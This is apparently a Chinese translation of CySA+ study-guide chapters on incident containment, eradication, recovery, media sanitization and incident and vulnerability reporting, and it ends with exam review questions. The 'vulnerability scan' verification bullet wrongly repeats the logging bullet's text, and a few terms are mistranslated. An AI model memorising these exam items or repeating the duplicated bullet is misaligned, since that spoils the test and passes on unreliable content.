事件响应遏制阶段的首要目标是限制对组织及其资源的损害。尽管该目标可能优先于其他目标，但响应人员可能仍然对在遏制过程中收集证据感兴趣。这些证据对于内部目的对事件进行持续分析至关重要，或者可以在针对攻击者的法律诉讼程序中使用。

如果事件处理人员怀疑调查期间收集的证据可能用于法庭，他们应该在调查过程中特别注意保护和记录证据。`NIST` 建议调查人员维护详细的证据日志，包含以下内容：

- 识别信息（例如计算机的地点、序列号、型号、主机名、`MAC` 地址和 `IP` 地址）
- 每位收集或处理证据的每个人的姓名、职位和电话号码
- 每次证据处理发生的时间和日期（包括时区）
- 证据存储的位置

识别网络安全事件的责任者是一项复杂的任务，通常会导致调查人员进入一条跨越国界、经过多个定向主机的复杂路径。尽管你可能会在日志中找到存储的 `IP` 地址记录，但这些记录极有可能并不对应攻击者的实际 `IP` 地址。除了最外级的业余爱好者，任何攻击者都会通过一系列被破坏的系统中继其通信，这使得追踪其真实源头变得困难。

在沿着调查攻击源头的路径进行之前，重要的是问问自己为什么要进行调查。揭露`谁`攻击了你是否真的具有业务价值，还是将你的时间花在遏制、根除和恢复活动上更有意义？`NIST` 的《计算机安全事件处理指南》直接应对了这一问题，认为“识别攻击源主机可能是一个耗时且徒劳的过程，可能会阻止团队实现其首要目标——将对业务的影响降至最低。”

执法人员在处理这种情况时，其目标可能与受攻击组织的网络安全分析师的目标不同。毕竟，执法机构的核心职责之一是识别犯罪分子、将其逮捕并将其诉至法庭。这一责任可能与遏制、根除和恢复的核心网络安全目标发生冲突。网络安全人员和业务领导者在决定是否让执法机构参与事件调查，以及他们对正在进行的调查提供何种程度的支持时，应当考虑这种冲突。

请参见第 4 章“威胁情报”，获取更多关于识别威胁行为者的信息。

## 事件根除与恢复

一旦网络安全团队成功遏制了事件，就是进入响应的`根除`（`eradication`）阶段了。根除的主要目的是移除组织网络上可能留下的任何事件痕迹。这包括移除网络中的任何恶意代码、对受破坏的介质进行清理以及保护受破坏的用户账户。

事件响应的`恢复`（`recovery`）阶段侧重于恢复正常能力和服务。它包括重建资源以及纠正可能导致攻击的安全控制缺陷。这可能包括重建和修补系统、重新配置防火墙、更新恶意软件签名以及类似的活动。恢复的目标不仅是重建组织的网络，而且是以一种能够减少未来攻击成功概率的方式来进行。

在根除和恢复期间，网络安全分析师应对对事件的根源有清晰的理解。这对于实施安全的恢复以纠正导致原始攻击的控制缺陷至关重要。毕竟，如果你从根本上不理解攻击者是如何突破你的安全控制的，就很难纠正这些控制以防止攻击再次发生！理解攻击的根源与识别攻击者是完全不同的活动。这一过程也被称为实施`补偿性控制`（`compensating controls`），因为这些控制补偿了原始的安全缺陷。根源评估是事件恢复的关键组成部分，而前面提到的，识别攻击者可能是一种代价昂贵的精力分散。


根源分析还帮助组织识别其运行的可能可能具有相同漏洞的其他系统。例如，如果攻击者破坏了一个 Cisco 路由器，且根源分析显示该设备的配置中存在错误，管理员可能会在他们控制的其他路由器上纠正该错误，以防止类似的攻击破坏这些设备。

## 修复与重装

在事件期间，攻击者可能通过恶意软件、Web 应用程序攻击或其他漏洞破坏一个或多个系统。一旦攻击者获得了系统的控制权，安全专业人员应认为该系统已完全被破坏且不可信。仅仅纠正安全问题并继续下去是不安全的，因为攻击者可能在受破坏的系统中仍留有未检测到的立足点。相反，应该重建该系统，是从从头开始，还是使用已知安全状态的系统镜像或备份。

重建和/或恢复系统应始终考虑到事件的根源分析。如果系统是因为包含安全漏洞而被破坏的（而不是通过使用受破坏的用户账户），那么该系统的备份和镜像可能具有相同的漏洞。即使是从头开始重建系统，也可能重新引入先前的漏洞，导致系统易受到相同的攻击。在恢复阶段，管理员应确保重建或恢复的系统已修复以解决已知的安全问题。

修复活动可能还需要对组织的安全控制进行更广泛的改进。你可能需要纠正防火墙规则、添加安全技术或实施其他纠正措施来修复缺陷。

## 系统与应用程序的补丁

在事件期间，攻击者可能通过恶意软件或其他漏洞破坏多个系统。在事件恢复期间，网络安全分析师将修复参与攻击的操作系统和应用程序。这也是审查企业所有系统安全补丁状态的好时机，解决隐藏在后台的其他安全问题。

网络安全分析师应首先将精力放在直接参与的系统上，然后向外扩展，处理间接相关的系统，最后才是完全未参与的系统。图 11.6 显示分析师在恢复阶段修复系统和应用程序时应采取的分阶段方法。


**图 11.6** 补丁优先级

## 清理与安全处置

在恢复期间，网络安全分析师可能需要对事件期间损坏的系统介质进行处置或重复利用。在这种情况下，应特别小心，确保存储在介质上的敏感信息不会泄露。响应人员不希望一个事件的恢复工作导致第二个事件！

通常情况下，含有敏感信息的介质的安全处置有三种选择：清除、净化和销毁。NIST 在 NIST SP 800-88《介质清理指南》中定义了这三种清理活动：

- `清除`（`clear`）应用逻辑技术对所有用户可访问存储位置的数据进行清理，以防止简单的非侵入数据恢复技术；这通常通过对存储设备的标准`Read`和`Write`命令应用，例如通过写入新值或使用菜单选项将设备重置为出厂状态（当不支持重写时）。
- `净化`（`purge`）应用物理或逻辑技术，使目标数据无法通过先进的实验室技术恢复。净化活动的示例包括通过使用专门的、标准的设备命令执行的覆盖、块擦除和加密删除活动。`消磁`（`Dgaussing`）是另一种净化形式，利用极强磁场干扰存储在设备上的数据。
- `Destroy`（破坏）使得目标数据无法通过先进的实验室技术进行恢复，并导致后续无法将该介质用于存储。破坏技术包括粉碎、雾化、熔化和焚烧。

这三个级的数据处置方法按有效性以及难度和成本的顺序列出。例如，物理焚烧硬盘消除了数据恢复的所有可能，但需要使用焚烧炉，并使硬盘在未来无法再次使用。

图 11.7 显示了一个流程图，旨在帮助安全决策者选择合适的信息破坏技术，并可指导事件恢复工作。注意，该流程图在尝试清除、净化或破坏数据之后包含一个`Validation`（验证）阶段。`Validation`确保了介质清理是成功的，并且在清理后的介质上不存在残留数据。


FIGURE 11.7 清洁与处置决策流 ¶ 来源: NIST SP 800-61：计算机安全事件处理指南 [`nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf`](https://nvlpubs.nist.gov/nistpubs/specialpublications/nist.sp.800-61r2.pdf) / 最后访问：2023 年 2 月 15 日

## 验证数据完整性

在结束恢复工作之前，事件响应人员应花时间验证所实施的恢复措施是否成功。此类验证的确切性质取决于事件的技术状况和组织的基础。这些验证工作应始终包含以下四项活动：

- **验证组织内每个系统和应用程序上仅存在已授权的用户账户。** 在许多情况下，组织已经进行了定期的账户审查，以验证每个账户的授权情况。在恢复验证工作期间应使用此过程。
- **验证分配给每个账户的权限已正确恢复。** 在账户审查期间，响应人员还应验证账户是否具有违反最小权限原则的额外权限。这对于普通用户账户、管理员账户和服务级账户均适用。
- **验证系统和数据的完整性。** 确认涉及事件的系统已正确配置以符合安全标准，并且没有对设置或数据进行未经授权的更改。你可能需要从事件发生之前的备份中恢复系统。
- **验证所有系统均正常记录日志。** 每个系统和应用程序都应配置为按照与组织日志策略一致的层级记录安全相关信息。这些日志记录应发送到中央日志存储库中，以供归档使用。验证阶段应包含验证这些日志已正确配置并被存储库接收。
- **对所有系统进行漏洞扫描。** 每个系统和应用程序都应配置为按照与组织日志策略一致的层级记录安全相关信息。这些日志记录应发送到中央日志存储库中，以供归档使用。验证阶段应包含验证这些日志已正确配置并被存储库接收。

## 总结响应

在完成遏制、根除和恢复的立即行动后，`CSIRT`（计算机安全响应小组）非常想认为他们的工作已经完成。然而，在团队完成以下工作之前，事件响应并未完全结束：

### 管理变更控制流程

在遏制、根除和恢复过程中，响应人员可能绕过了组织的正常变更流程。这些流程提供了重要的控制和记录。一旦响应工作的紧迫性过去，响应人员应回到这些流程，并记录事件期间进行的所有更改。

### 进行教训总结

在每次网络安全事件结束后，所有参与响应的人都应该参加教训总结会议旨在发现有关响应的关键信息。该会议还突出了响应计划中的潜在缺陷。有关事件后教训总结的更多信息，请参见第 9 章的“教训回顾”。

在事件调查期间，团队可能会根据攻击者使用的工具、技术和策略遇到新的“入侵指标”（`IOC`）。作为教训回顾的一部分，团队应明确识别任何新的`IOC`，并建议更新组织的安全计划以包含这些`IOC`。这将减少未来类似事件逃避检测的概率。

### 编写最终报告

每个启动 `CSIRT` 的事件都应以正式的书面报告结束，以记录事件供备查。这有几个重要目的。首先，它创建了事件的机构记忆，在开发新的安全控制和培训新的安全团队成员时有用。其次，如果事件导致法律诉讼，它可以作为事件的重要记录。最后，编写书面报告的行为有助于识别响应过程中之前未被检测到的缺陷，这些缺陷可以通过教训总结过程进行反馈。

`CSIRT` 在事件后报告中涵盖的重要要素包括：

- 事件和响应工作的时间轴
- 事件的根本原因
- 事件响应过程中收集的证据的位置和描述
- 响应人员为遏制、根除和恢复事件所采取的特定行动，包括这些决策的理由
- 事件对组织及其利益相关者的影响估算
- 恢复后验证工作的结果
- 教训回顾期间识别的问题记录

### 证据留存

在事件结束后，团队应对事件发生期间收集的证据的处置方式做出正式决定。如果证据不再需要，则应根据组织的数据处置程序进行销毁。如果需要保留证据以备后用，则应将其放在安全的证据库中，并维护监管链（`chain of custody`）。

保留证据的决定取决于多个因素，包括事件是否可能导致刑事或民事诉讼，以及事件对组织的影响。这一主题应在组织的事件响应程序中直接解决。

## 总结

在识别出正在发生的安全事件后，`CSIRT` 成员应立即进入事件响应的遏制、根除和恢复阶段。该阶段的首要任务是遏制安全事件造成的损害，以降低其对组织的影响。一旦事件得到遏制，响应人员应采取行动消除事件影响并恢复正常运行。一旦完成应急响应工作，`CSIRT` 应该进入事后后阶段，开展教训总结会议，并编写一份总结事件响应过程的书面报告。

## 考试要点

### 解释遏制活动的目的

在识别出正在发生的潜在事件后，响应人员应立即采取行动遏制损害。他们应该根据事件的性质及其对组织的影响选择适当的遏制策略。潜在的遏制活动包括网络分段、隔离和移除受影响的系统。

### 了解响应期间收集证据的重要性

网络安全事件的大多数证据具有挥发性，如果不在响应期间进行收集，随后可能无法获取。`CSIRT` 成员必须确定证据收集在遏制、根除和恢复阶段的优先级，然后确保妥善处理任何稍后可用于法律诉讼的收集证据，包括妥善保存证据、记录监管链以及验证数据完整性。

### 解释为什么识别攻击者可能会浪费宝贵资源

识别安全事件后后者的大部分努力都是徒劳的，在消耗了大量资源后最终会走入死胡同。事件响应人员的关注重点应该是保护组织的业务利益。执法官员有不同的优先级，响应人员应该意识到这些目标可能存在冲突。

### 解释根除和恢复的目的

在遏制损害后，响应人员应转到根除和恢复活动，旨在从组织的网络中删除事件的所有痕迹，并尽快恢复正常运行。这应该包括验证工作，以确保在关闭事件之前安全控制措施已妥善实施。

### 定义事后活动的目的

在网络安全响应工作结束，`CSIRT` 成员应举行正式的教训总结会议，回顾整个事件响应过程，并根据需要对组织的事件响应计划提出建议。任何此类更改都应通过组织的变更控制流程进行。团队还应完成一份正式的事件总结报告，作为记录事件以备后世参考。在此过程中的其他考虑因素包括证据保留、入侵指示（`IoC`）的生成以及持续监控。

## 实验练习

### 活动 11.1：事件遏制方案

为以下每个图表标注图中所示的事件遏制活动类型。


### 活动 11.2：清理与处置技术

在流程图中填写安全事件发生后被销毁信息的适当处置方式。

每个框应使用以下三个单词之一完成：

- `Clear`（清除）
- `Purge`（净化）
- `Destroy`（销毁）


## 复习题

1. 事件响应阶段中的哪一个阶段主要涉及旨在限制攻击者可能造成的损害的积极活动？
   1. 遏制、根除和恢复
   2. 准备
   3. 事后活动
   4. 检测与分析

2. 下列标准中，哪一项通常不用于评估网络安全事件遏制策略的合理性？
   1. 策略的有效性
   2. 证据保护要求
   3. 策略生成的日志记录
   4. 策略的成本

3. Alice 正在响应一起网络安全事件，并注意到一个她怀疑已被入侵。她将该系统置于一个`quarantine VLAN`（隔离 VLAN），并限制其对其他网络系统的访问权限。Alice 正在采取哪种遏制策略？
   1. 根除
   2. 隔离
   3. 分段
   4. 移除

4. Alice 与其他成员商量后决定，即使是对其他系统的受限访问也是一种不可接受的风险，因此转而选择防止隔离 VLAN 访问任何其他系统。她正在采取哪种策略？
   1. 根除
   2. 隔离
   3. 分段
   4. 移除

5. 在观察攻击者后，Alice 决定完全切断互联网连接，让系统继续运行但从外部访问。她正在采取哪种策略？
   1. 根除
   2. 隔离
   3. 分段
   4. 移除

6. 下列哪种工具可用于隔离攻击者，使其不对生产系统造成损害，但仍被分析师观察？
   1. `Sandbox`（沙箱）
   2. `Playpen`（练习场）
   3. `IDS`（入侵检测系统）
   4. `DLP`（数据泄露防护）

7. Tamara 是一家遭受安全漏洞的企业的网络安全分析师。她认为攻击者入侵了包含敏感信息的数据库。下列活动中哪一个是 Tamara 的首要任务？
   1. 识别攻击源
   2. 根除
   3. 遏制
   4. 恢复

8. 在教训总结审查中应该明确识别哪些内容，以减少未来类似事件逃避关注的概率？
   1. `IoCs`
   2. 范围
   3. 影响
   4. 重新映像

9. 下列哪项信息对于开展可靠的事件恢复工作至关重要？
   1. 攻击者身份
   2. 攻击时间
   3. 攻击根源
   4. 对其他组织的攻击

10. Lynda 正在处置一个在网络安全响应期间收集的包含敏感信息的硬盘。这些信息被类为高安全风险，她希望在未来的事件中重用该介质。这些信息的适当处置方式是什么？
    1. `Clear`
    2. `Erase`
    3. `Purge`
    4. `Destroy`

11. 下列活动中哪一项通常不在恢复验证阶段进行？
    1. 验证分配给每个账户的权限
    2. 实现新的防火墙规则
    3. 进行漏洞扫描
    4. 验证日志功能是否正常

12. 哪种事件响应活动专注于删除组织网络中可能留下的事件痕迹？
    1. 抑制
    2. 恢复
    3. 事件后活动
    4. 根除

13. 下列哪不是正式事件报告的常见用途？
    1. 培训新团队成员
    2. 与其他组织共享
    3. 开发新的安全控制措施
    4. 协助法律行动

14. 下列哪个数据元素通常不会包含在证据日志中？
    1. 序列号
    2. 处理记录
    3. 存储位置
    4. 恶意软件签名

15. Sondra 确定攻击者已经访问了一个包含关键业务文件的服务器，并希望确保攻击者无法删除这些文件。以下哪种策略能满足 Sondra 的目标？
    1. 隔离
    2. 分段
    3. 移除
    4. 以上均不是

16. Joe 想要确定在事件响应过程中用于收集高度敏感证据的闪存驱动器的适当处置方式。他不需要重复使用该驱动器，但想将其归还给所有者（一个外部承包商）。适当的方式是什么？
    1. 销毁 (`Destroy`)
    2. 清除 (`Clear`)
    3. 擦除 (`Erase`)
    4. 净化 (`Purge`)

17. 下列哪项通常不在网络安全事件报告中？
    1. 事件时间轴
    2. 攻击者身份
    3. 影响估计
    4. 教训总结文档

18. 哪个 NIST 出物包含了网络安全事件处理的指南？
    1. SP 800-53
    2. SP 800-88
    3. SP 800-18
    4. SP 800-61

19. 下列哪项不是净化活动？
    1. 重置为出厂状态
    2. 覆盖
    3. 块擦除
    4. 密码擦除

20. Ben 正在响应安全事件，并确定攻击者正在使用 Ben 网络上的系统攻击第三方。以下哪种抑制方法可以防止 Ben 的系统被以此方式使用？
    1. 移除
    2. 隔离
    3. 检测
    4. 分段

# 领域 IV

报告与沟通

## 第 12 章

报告与沟通

报告和沟通是所有类型组织多个内部和外部流程的一部分。内部沟通和报告流程对于确保漏洞管理工作的成功至关重要。它们有助于确保利益相关者了解需要发生什么、漏洞管理计划是否有效且成功，以及是否存在关键缺口或需求。它们还可以帮助获得适当的领导关注，从而有助于确保有可用资源来及时进行漏洞修复。

事件响应过程也在此整个事件响应过程中依赖于报告和沟通。如果没有沟通，事件响应往往会崩溃，导致产生更多问题。在事件响应过程期间和事后的报告有助于确保事件得到适当且充分的解决，且这两者可能都是合同或法律的要求。

在本章中，你将学习如何在漏洞管理和事件响应中使用报告和沟通。你将学习如何识别利益相关者、如何创建报告以及如何使用指标。

## 漏洞报告与沟通

有效的漏洞管理计划需要创建报告并将其分发给责任方。它们还需要持续的沟通，以确保漏洞管理的状态得到良好的理解。

### 漏洞报告

漏洞管理需要向系统管理员和安全人员提供报告。报告通常包含许多常见元素：

- 漏洞，包括`CVE`编号、`name`和`description`。
- `affected hosts`列表，带有`IP address`和`hostname`。
- 提供严重程度衡量的`risk score`。
- `Mitigation options`，包括`patches`、`updates`和`workarounds`。
- 关于`recurrence`的信息。如果漏洞再次出现，这通常意味着出了某些问题并需要调查。
- `Prioritization`信息，将帮助负责人确定需要先完成哪些工作。优先级信息通常依赖于风险评分、`CVSS scores`和组织策略，以优先处理重要的漏洞。

漏洞报告通常以自动方式创建，因为它们是周期性的，并且对于大型组织或复杂环境，可能会达到很长的。坦率地说，自动化补丁工具和集中管理软件有助于减轻大规模漏洞修复的负担。

随时间跟踪漏洞信息和对报告的反馈对于漏洞管理计划的成功关重要。责任方需要方法来标记误报和通融方案，并调整风险评分和其他配置项以匹配环境、风险和安全策略。

### 利益相关者识别与沟通

漏洞报告需要了解所涵盖系统和服务的适当利益相关者是谁，并确保及时进行向每个利益相关者提供适当信息的沟通。

利益相关者通常可以分为以下几类：

- 技术利益相关者，他们需要有关漏洞、修复和缓解方案以及优先级的信息，以便他们按照适当的重要性顺序完成所需工作。
- 安全、审计和合规利益相关者，他们需要组织整体漏洞状况视图，以及关于反复漏洞和其他趋势信息。
- 安全管理和监督系统，它们摄取漏洞信息为安全运营提供额外的上下文，并需要通过`APIs`或其他接口以标准格式自动地获取安全报告信息。
- 执行或领导人员，他们提供监督并对组织的整体性能和安全负责，并需要正在进行的漏洞修复实践的仪表板级视图。

### 合规报告

漏洞管理系统通常具有专门的报告，旨在提供与`PCI`标准等常见合规目标一致的合规信息。当组织的合规要求与常见标准不一致时，它们需要构建自己的报告，以满足这些标准中的要求。


与其他报告一样，`compliance reporting`（合规报告）应该定期进行，通常与标准本身概述的报告要求保持一致。报告可能需要提供给认证机构，或者仅保留作为持续符合该标准的证明。

# 行动计划

虽然漏洞管理的大部分工作是简单地安装补丁来修复漏洞，但行动计划中还可能涉及其他处理漏洞的要素。`CySA+` 考试目标列出了许多你需要关注的此类内容。

## 配置管理

`configuration management` 是漏洞管理的关键部分。仅仅通过配置和服务和应用程序不暴露可能存在漏洞的端口、移除或更改默认配置，以及其他方式对系统和服务进行加固，都是漏洞管理中重要的一步。这意味着配置管理、配置管理工具的使用以及基准配置的都是漏洞管理行动计划的共同部分。

## 补丁

虽然 `patching` 看起来是一个简单的课题，但补丁的行动计划需要考虑业务流程和要求。由于补丁在某些环境和情况下可能导致服务中断，因此补丁需要进行计划和沟通。同时，补丁在生产环境执行之前可能也需要进行测试。补丁不能假设是完美的，事实上，它们可能会引发新问题。

## 补偿措施

在无法安装补丁或补丁不存在，或者补丁存在已知问题的情况下，可以使用补偿措施（`compensating controls`）。补偿措施是保护或保护服务、系统或设备的替代方法，能够实现与实施首选或典型控制时相同的的结果。

在漏洞管理系统中，这可能意味着部署一个带有保护规则的 Web 应用防火墙（`WAF`）以停止对 Web 服务的已知利用，或者可能涉及禁用服务直到可以打补丁为止。

遗憾的是，补偿措施通常不会被配置管理和漏洞管理系统自动理解或识别。在部署补偿措施的情况下，需要对其进行记录，并在使用的配置管理和漏洞管理系统中设置注释或标记，以确保该漏洞以后不再以相同的方式被报告。

由于供应商不会解决补偿措施，许多组织选择为补偿措施设置审查周期。当补偿措施被视为临时措施时（因为没有可用补丁、补丁有缺陷或由于业务原因无法安装），这一点尤为真实。一旦对补偿措施的需求得到解决，组织将安装补丁或进行正常修复并移除补偿措施，从而简化其持续管理。

## 意识、教育与培训

漏洞管理实践需要员工的意识才能有效。系统管理员和安全从业人员需要意识到漏洞管理和及时修复实践的重要性。领导层需要对组织负责，并对确保监督工作的开展负责。审计员和合规人员需要理解组织的漏洞概况和实践，以及在何种情况下实施了补偿措施或其他解决方案，以及它们为什么适用或不适用。

所有这些都要求组织对所有相关员工持续进行培训、教育和意识提升工作。

## 业务需求的变化

组织的要求和需求会随时间变化，但漏洞管理也可能要求组织修改其做法。因此，`changing business requirements`（业务需求的变化）是漏洞管理中频率较低但仍然重要的部分。

# 漏洞管理指标和 KPI

了解你的漏洞管理系统和流程运行良好需要 `metrics`（指标）和关键性能指标（`KPIs`）。漏洞管理的 `Trends`（趋势）通常关注漏洞数量、其严重程度或风险评分以及修复时间。复发问题也是报告的频繁目标。

前 10 名列表有助于识别最大的威胁、最常见的漏洞以及类似的项目，这些对于集中组织资源非常有用。然而，仅仅依赖前 10 名并不是组织推荐的做法，因为这个数字是任意的，而且存在更多。

`Critical vulnerabilities`（严重漏洞）是指可能导致利用并可能产生重大影响的漏洞。如果你的组织依赖 `CVSS` 标准，则根据影响、可利用性、时间和环境调整因子等衡量标准，`9.0–10.0` 被视为严重漏洞。你可以访问 v3 评分计算器：`https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator`。衡量组织中严重漏洞的数量及其补丁时间，对于理解最关键漏洞的处理情况非常重要。

`Zero-days`（零日漏洞）是在补丁发布之前就公布的漏洞。这允许攻击者在补丁创建并部署之前利用该漏洞。由于它们是未知的，在配置管理系统或漏洞扫描器接收到更新的定义或检测能力之前，无法被识别。衡量零日响应是挑战性的，因为它依赖于供应商和其他机构发布补丁，或取决于组织识别并实施补偿措施。

`Service level objectives (SLOs)`（服务水平目标）描述了特定的指标，如修复或打补丁的时间，它们由组织设定或作为与供应商的服务水平协议的一部分定义。衡量是否满足 SLO 以及差距之处是服务协议管理的常见元素。

# 修复的阻碍

虽然组织通常意识到漏洞需要修复，但有许多原因导致它们可能不会像希望的那样快速地打补丁或解决。这些包括：

- `Memorandums of understanding (MOUs)`（谅解备忘录）可能有性能或可用性目标，如果系统或服务需要离线打补丁，这些目标可能无法实现。它们还可能指定支持组织，或对谁可以处理系统或是否可以安装补丁设定限制。这对于对软件或操作系统更改敏感的嵌入式专用系统尤为常见。

- `Service level agreements (SLAs*)`（服务水平协议）也可能影响性能目标的条款。SLA 可能会驱动组织延迟打补丁以确保达到可用性或其他指标。

- `Organizational governance`（组织治理）可能会由于业务流程需求或验证过程而减慢补丁速度。

*注：原文处有星号标记，此处予以保留。*

* 对`业务流程中断`的担忧往往会导致修复工作延后。虽然许多现代系统设计为通过使用负载均衡等技术允许补丁，但并非所有系统或服务都可以在不要求停机的情况下进行补丁。

* 某些补丁或修复可能会导致`功能下降`。补丁可能会禁用或修改某个服务，也可能意味着禁用了旧协议，从而破坏与其它系统或设备的连接性或集成性。理解漏洞修复的影响可能包括查找可能影响现有基础设施配置的变更。

* `遗留系统`可能没有可用的补丁，这意味着补偿性措施可能是唯一的选择。在补偿措施无法完全修复漏洞的情况下，组织可能需要针对漏洞与系统或服务需求之间做出由风险驱动的选择。

* `专有系统`（`proprietary systems`）与遗留系统类似，可能没有可用的补丁，或者供应商对其实施了特定要求。你可能无法在安装特定补丁或更新版本的同时保留供应商的支持，这导致了漏洞管理策略与功能或业务需求之间产生冲突。

无论遇到什么种修复阻碍，充分记录问题并根据风险和策略对应该做的事做出决策都是关重要的。某些阻碍可以通过改变组织流程来解决——治理、SLA 和 MOU 问题通常可以通过这种方式解决。其他问题则通常可以通过改变基础设施或软件及服务设计来改进，例如对业务流程中断、法律系统和专有系统的担忧。

## 事件响应报告与通信

报告和通信也是事件响应过程中的重要组成部分。如果响应人员之间缺乏适当的通信，事件响应过程很容易无法完全解决事件，或导致利益相关者对组织的支持流失。事件后的报告有助于确保组织能够妥善处理根源，并为未来的事件做好充分准备。

本章的剩余部分将带你了解通信是如何织入 IR（事件响应）过程的，以及在事件发生期间和之后充分有效地进行通信需要哪些条件。

### 利益相关者识别与通信

确保相关方在事件期间在正确的时间获得正确的信息依赖于对利益相关者的识别。组织中的利益相关者包括：事件响应人员；技术人员（如系统管理员、开发人员或其他受影响系统/服务的专家）；管理层；法律顾问；组织传播和营销人员；以及整个组织中由于事件的类型、范围或影响而可能需要参与的其他人员。

事件响应通信可能还涉及外部利益相关者，如客户、服务提供商、执法部门、外部顾问、政府机构或其他对受影响组织具有合规或监督作用的机构，以及媒体。

因此，当组织考虑事件响应通信时，通常会在流程和策略中定义明确的通信流程和角色。同时，还会识别关键利益相关者，以确保通信能够及时进行、适合目标受众，并符合组织的需求和要求。

### 事件声明与升级

在第 9 章中，你学习了图 12.1 所示的事件响应周期。当检测到事件并开始分析时，通信流程也随之启动：

1. 引导组织调查事件的入侵指示（`IoCs`）需要传给事件响应人员。

2. 事件响应人员需要判定 `IoCs` 指向的是事件还是假阳性。

3. 如果宣布事件，则需要激活组织的事件响应计划。这是事件声明步骤，随后是遏制、根除和恢复。


记住通信发生在所有阶段至关重要。事件响应人员需要意识到谁需要知道发生了什么、他们需要什么细节以及何时。

### 事件通信

NIST 的`800-61 计算机事件处理指南》包含了外部通信和信息共享的要求和指南，包括应该与谁共享什么内容、何时共享以及通过什么渠道共享。该指南描述了事件响应中常见的若干外部组织，这些也主要反映在 CySA+ 目标中。

**FIGURE 12.1 IR cycle**


#### 法律

由于多种原因，法律顾问可能会被要求提供咨询或参与事件响应。这特别是在涉及敏感数据、合规或人力资源时。如果组织认为可能面临法律行动，可能会聘请外部顾问以获取专业建议。

涉及法律顾问通常是决策过程的一部分，而不是事件响应的自动步骤。组织应确定可能何时以及为何引入顾问。

#### 公关

组织在事件期间可能会选择聘请专业的公关机构或人员，特别是重大事件或可能发生声誉损害的事件。CySA+ 目标考虑了公关话题。

##### 客户通信

与客户的通信是事件响应通信中最重要且复杂的部分之一。关于何时通信的可能是可能是的，因为通知数据泄露或其他问题对于留住客户至关重要，但可能对事件响应过程产生负面影响。同时，由于调查正在进行且初始假设可能是错误的，在响应过程中提供有用信息可能困难。

所有这些因素意味着组织应该确定客户通信的整体做法是什么——谁负责、通信什么以及何时通信，以及如何提供信息。虽然这些可能会为了满足特定事件的要求而改变，但良好了解组织的通用做法和理念可以确保在客户通信期间出现的问题减少。

##### 媒体

媒体通信程序应与组织现有的媒体互动和信息实践及策略保持一致。NIST 建议组织为媒体互动选择单一联系人以及备份人员以确保覆盖率，并让将与媒体互动的人员接受媒体培训以做好准备。

除了媒体培训外，额外的建议还包括：

* 建立媒体简报程序，并重点关注处理事件相关信息的敏感性

* 维护事件响应状态文档或声明，以确保媒体通信的一致性和及时性

* 为员工接触媒体和信息请求做好准备

* 作为事件响应（IR）练习的一部分，为响应人员举行演练课程

与媒体和公众的沟通可能是根据监管或立法报告要求的强制性要求、自愿行为，或者是由于安全事件的媒体报道所迫的。无论与媒体进行沟通的原因为何，为媒体互动做好准备都是事件响应准备工作的重要部分，而 NIST 指南的设计旨在强调这一点。

## 监管性报告

许多组织承担着法律义务，要求根据法律进行沟通。例如，在美国，2022 年的《关键基础设施网络事件报告法》（`CIRCIA`）要求，对于“可能对美国国家安全利益、外交关系或经济，或对美国人民的信任、公民自由或公共健康安全造成可证明损害”的重大网络事件，必须在 72 小时内报告给网络和基础设施安全局（`CISA`），并且勒索软件支付情况必须在支付后 24 小时内报告。

由于由法规驱动的报告因组织所在的地区、行业以及许多其他因素而异，因此组织需要对现有的法律要求进行仔细审查，并对新法律法规进行持续评估，以确保其保持合规。

## 执法部门

网络安全事件可能是犯罪性的，或者可能涉及组织无法应对的威胁者，例如国家级攻击者。当这种情况发生时，组织可能希望引入执法部门，或者当网络安全事件看起来具有犯罪性质时，执法部门可能希望参与。

需要重要的是，涉及执法部门可能会以重大方式改变事件响应过程。执法机构可能需要封锁系统、将其离线，或执行其他组织在没有执法部门参与时可能不会选择的操作。组织有时可以权衡选择合作或拒绝参与调查，但应始终在法律顾问的建议下做出这一决定。

## 根原因分析

确定事件的底层（或根源）原因需要响应人员弄清楚事件发生的原因。这意味着必须对事件有充分的理解和记录，通常需要建立时间线，并且需要记录记录其他问题和次要原因。这一过程被称为 `根原因分析 (RCA)`，在复杂情景下可能非常困难。

要执行根原因分析，你需要理解该过程中的四个步骤：

1. 识别作为事件组成而发生的问题和事件，并尽可能详细地描述它们。

2. 建立事件时间线。这有助于确定发生了什么、按什么顺序发生，以帮助识别根原因。

3. 区分每个事件和因果因素。简而言之，你需要确定哪些是根原因，哪些是根原因的结果，哪些是因果因素（或导致了问题产生但不是根原因的事件）。

4. 记录根原因分析结果，通常通过使用图表或图示来实现。

## 教训总结

如果组织不应用这些知识，那么知道事件是如何发生以及为何发生对它们将没有帮助。这意味着进行`教训总结`（`lessons learned`）练习或分析对于防止未来发生类似问题和事件至关重要。教训总结过程侧重于思考如何防止未来的问题，而不是指责，它们应该用于驱动变革和实施适当的控制。

## 事件响应指标与关键绩效指标 (KPI)

CySA+ 考试目标指出了你在思考事件响应时应该考虑的四个衡量标准。这些指标不仅可能出现在事件响应报告中，也是安全组织持续报告的常见部分：

* `平均检测时间`（`Mean time to detect`），即从导致事件的初始事件发生到检测到它所需的时间。这需要取证分析来准确确定，但对于那些寻求确定其检测能力是否适用于其面临的威胁的组织来说，这是一个有意义的衡量。面对高级持续性威胁的组织发现，他们可能被入侵了几个月或几年而未被发现，这将导致平均检测时间的统计结果非常糟糕！

* `平均响应时间`（`Mean time to respond`）衡量从检测到评估为事件并启动流程的时间。将其与下一个指标平均修复时间区分开来很重要，因为修复取决于事件的大小。

* `平均修复时间`（`Mean time to remediate`）衡量从检测到修复的时间，该指标需要更细致的沟通和解释，而非简单的数字。

* `告警量`（`Alert volume`）使用较少，因为它很难赋予意义。它可能意味着组织没有正确调整告警，也可能意味着组织的有效告警较少，还可能意味着组织拥有有效的检测系统并只响了关键告警。因此，将告警量作为指标或 KPI 通常被认为是有缺陷的衡量标准。更有用的衡量可能是告警是否发生并导致了事件，或者是否通过其他方式发现了事件。

寻求实施指标和 KPI 的组织需要理解正在衡量什么以及为什么要衡量。仅仅提供没有意义的背景或使用指标和 KPI 流程的数字，将无法改进事件响应过程和报告，反而可能消耗其他所需的资源。

## 事件响应报告

事件响应报告有助于组织对事件进行沟通，并作为确保响应、分析和随访一致性的手段。根据组织需求和事件的复杂性，报告可能是简短的摘要，也可能在报告或附件中包含深度细节。

标准的报告表、流程和后续程序有助于组织以一致的方式进行响应。图 12.2 显示了美国国土安全部和 `CISA` 提供的事件报告模板示例。该模板包含了受影响系统和软件的章节，以及编写报告的个人或团队。

